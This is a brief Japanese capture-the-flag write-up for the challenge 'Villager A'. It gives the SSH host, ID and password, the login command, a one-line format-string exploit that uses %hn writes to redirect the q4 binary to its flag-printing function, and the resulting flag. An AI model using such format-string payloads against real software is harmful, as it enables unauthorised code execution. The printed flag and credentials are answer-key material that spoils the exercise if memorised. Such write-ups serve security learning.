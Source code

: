 ## 問題文
Villager A

SSH: ctfq.sweetduet.info:10022

ID: q4

Pass: q60SIMpLlej9eq49

## 解説
sshでサーバーにログイン

```
ssh -p 10022 q4@ctfq.sweetduet.info
```

q4中にflag.txtの実行関数がある

```
echo -e "\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6\$hn%33139x%7\$hn" | ./q4
```

FLAG_nwW6eP503Q3QI0zw